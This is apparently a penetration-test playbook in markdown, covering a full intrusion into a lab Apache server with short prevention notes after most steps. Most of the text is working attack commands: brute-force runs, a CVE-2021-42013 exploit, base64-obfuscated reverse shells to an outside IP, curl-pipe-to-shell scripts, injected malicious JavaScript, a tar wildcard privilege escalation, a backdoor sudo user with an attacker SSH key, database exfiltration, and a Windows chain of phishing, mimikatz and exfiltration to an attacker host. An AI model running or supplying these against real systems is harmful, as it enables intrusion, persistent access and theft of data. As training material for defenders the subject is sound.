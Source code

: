 ### Nmap Scanning
```bash
target=10.5.20.12
nmap -sSV -p- -Pn -n -O $target -T3
```
#### Prevention
lower the options of scanning to not reveal service information 
use firewall, IDS, DMZ, hide legacy services behind VPN

### Web Content Discovery
```bash
# Directory Enumeration 
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# File Enumeration
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak
```

#### Prevention
disable scanning of directories, and unwanted files

```bash
# httpd.conf
Options -Indexes

# .htaccess 
<FilesMatch "\.(htaccess|htpasswd|env|ini|log|conf)$">
  Order Allow,Deny
  Deny from all
</FilesMatch>
```

### Login Page Bruteforce
```bash
ffuf -u http://10.5.20.12/user/log-in.php -X POST \
-H "Cookie: PHPSESSID=tg6bk1lbboajafumsv03n2t0o8" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "email=FUZZ1&password=FUZZ2" \
-w ./web_users.txt:FUZZ1 -w /usr/share/nmap/nselib/data/passwords.lst:FUZZ2 \
-fc 401
```

#### Prevention
set up tools like fail2ban or iptables recent module, apache mod_evasive 
use modern languages and libraries, good coding practices
timing limit
ideally MFA, CAPTCHA, WAF

### SSH Bruteforce
```bash
hydra -vV -L ./ssh_users.txt -P /usr/share/nmap/nselib/data/passwords.lst ssh://$target
```
#### Prevention
first thing you always do is harden ssh sshd_config on a new machine
ideally use long key with strong ciphers

```
PasswordAuthentication no
PermitRootLogin no
```

### Unsucessful Path Traversal Used to Read /etc/passwd CVE-2021-42013

```bash
wget -O exploit.sh https://www.exploit-db.com/raw/50406
echo $target > targets.txt
bash exploit.sh targets.txt /etc/passwd
```

#### Prevention
use container isolation
non-root user

### RCE Resulting in Reverse Shell CVE-2021-42013
```bash
bash exploit.sh targets.txt /bin/sh id

nc -lvnp 4444
bash exploit.sh targets.txt /bin/sh "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzQ0NDQgMD4mMQ== | base64 -d | bash"
```

#### Prevention
keep up to date your patch management preferably set up automatic updates 

### Shell Upgrade
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
user@remote:~$ ^Z
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
user@local:~$ echo $TERM
user@local:~$ echo $SHELL
user@local:~$ stty raw -echo; fg  #JUST IN CASE, YOUR SHELL IS zsh!!!! OTHERWISE USE THERE COMMANDS SEPARATELY!
user@remote:~$ stty rows ROWS cols COLS

user@remote:~$ export TERM=xterm-256color # the response from previous `echo $TERM`
user@remote:~$ export SHELL=bash # same with `echo $SHELL`
exec /bin/bash # reload bash to apply the TERM variable
```

#### Prevention
use limited shells

### Loud Linux Enumeration - Linpeas
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### Prevention
it is possible to set up traps on the system for example high priledged canary files that track who reads them and executes something that will eg. isolate the user 

### Malicious Javascript Addition
```bash
nano /usr/local/apache2/htdocs/index.php
# add <script src="./js/captcha.js"></script>
echo "<captcha>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js
```

### Cronjob Priviledge Escalation
```bash
nc -lvnp 1337
echo 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzEzMzcgMD4mMQ== | base64 -d | bash' > /usr/local/apache2/htdocs/exploit.sh

chmod +x /usr/local/apache2/htdocs/exploit.sh
echo '' > /usr/local/apache2/htdocs/'--checkpoint=1'
echo '' > /usr/local/apache2/htdocs/'--checkpoint-action=exec=sh exploit.sh'
```

#### Prevention
use proper file permissions, prevent using wildcards, use full paths, low priviledged users

### Loud Linux Enumeration - Linenum
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Sudo Priviledge Escalation
```bash
sudo git help config
!/bin/sh
```

### Prevention
avoid using NOPASSWD, think about all the options before adding command to sudo (gtfo bins)

### Information Exfiltration + Persistence
```bash
mysqldump -u root webapp | gzip > /opt/database.sql.gz
```

```bash
# 1. Create admin user with sudo privileges
useradd -m -s /bin/bash admin
usermod -aG sudo admin
echo 'admin ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers.d/admin
chmod 440 /etc/sudoers.d/admin

# on kali machine
ssh-keygen -t rsa -b 4096 -f /home/kali/.ssh/majestic -N ""

# 2. Set up SSH key for admin (replace with your actual public key)
mkdir -p /home/admin/.ssh
echo '</home/kali/.ssh/majestic.pub>' > /home/admin/.ssh/authorized_keys
chmod 600 /home/admin/.ssh/authorized_keys
chmod 700 /home/admin/.ssh
chown -R admin:admin /home/admin/.ssh

# 3. Confirm that you are able to login
ssh -i /home/kali/.ssh/majestic admin@10.5.20.12

# 3. Exfiltrate data using scp with a provided private key 
scp -i /home/kali/.ssh/majestic admin@10.5.20.12:/opt/database.sql.gz database.sql.gz
```

### WINDOWS

WKSTN -> DC
———————-
Phish CEO (domain admin) -> weak svc privesc -> run keys persistence -> psexec lateral movement DC (uz si admin na DC) -> mimikatz hashdump
Phish CEO (domain admin) -> psexec lateral movement DC (uz si admin na DC) -> mimikatz hashdump
Phish CEO (domain admin) -> psexec lateral movement DC (uz si admin na DC) -> run keys persistence -> mimikatz hashdump

--> https://github.com/peass-ng/PEASS-ng, https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/ (fileless), process injection, file exfiltration (pii_udaje.xlsx > Compress-Archive > base64 > IWR > randomip/exfil?data=<base64>) 

randomip = digital ocean / apt group ip
